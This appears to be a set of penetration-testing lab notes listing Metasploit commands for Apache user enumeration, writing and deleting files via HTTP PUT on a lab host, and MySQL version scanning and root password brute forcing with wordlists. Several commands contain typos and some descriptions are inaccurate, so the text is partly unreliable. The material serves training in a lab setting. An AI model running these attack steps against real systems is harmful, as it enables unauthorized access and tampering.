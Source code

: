 > This will find brute force credentials. 

```msfconsole
use auxiliary/scanner/http/apache_userdir_enum
show options
set RHOSTS <ip-affress>
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set VERBOSE fals
run
```

> This can be used to brute force users on the target.

```msfconsole
use auxiliary/scanner/http/http_put
set RHOSTS victim-1
set PATH /data
set FILENAME test.txt
set FILEDATA "Welcome To AttackDefense"
run
```

> Using this module write a file on the target server. If the file is already exists it will overwrite it.

```Shell
wget http://victim-1:80/data/test.txt 
cat test.txt
```

> Use `wget` and download the `test.txt` file and verify it.

```msfconsole
use auxiliary/scanner/http/http_put
set RHOSTS victim-1
set PATH /data
set FILENAME test.txt
set ACTION DELETE
run
```

> This module can be used to `DELETE` the `test.txt` file.

#### MySQL Enumeration:

```msfconsole
use auxiliary/scanner/mysql/mysql_version
show options
set RHOTS <ip-address>
run
```

> This module can be used to find the module of the SQL running on the machine.

```msfconsole
use auxiliary/scanner/mysql/mysql_login
show options
set RHOTS <ip-address>
set USERNAME root
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
run
```
